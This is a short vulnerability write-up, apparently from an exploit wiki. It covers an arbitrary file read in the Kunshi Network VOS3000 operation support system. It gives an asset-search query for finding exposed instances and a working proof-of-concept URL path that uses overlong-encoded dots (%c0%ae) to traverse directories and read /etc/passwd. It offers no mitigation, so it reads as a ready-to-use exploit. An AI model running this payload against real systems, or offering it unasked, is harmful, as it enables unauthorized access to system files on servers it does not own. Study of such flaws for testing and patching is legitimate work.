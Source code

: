 # Kunshi Network VOS3000 Virtual Operation Support System %c0%ae%c0%ae Any file reading vulnerability

## Vulnerability Description

Kunshi Network VOS3000 virtual operation support system bypassing detection through characters such as %c0%ae%c0%ae, which can lead to any file reading vulnerability.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Kunshi Network VOS3000 virtual operation support system</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">app="VOS-VOS3000"</span>

## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1646106250912-5403bbab-c801-402a-923b-545c45f1051d.png)

Verify POC

```javascript
/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1646106380805-4471d7bf-54b9-4eec-8f1a-b2a33881335b.png)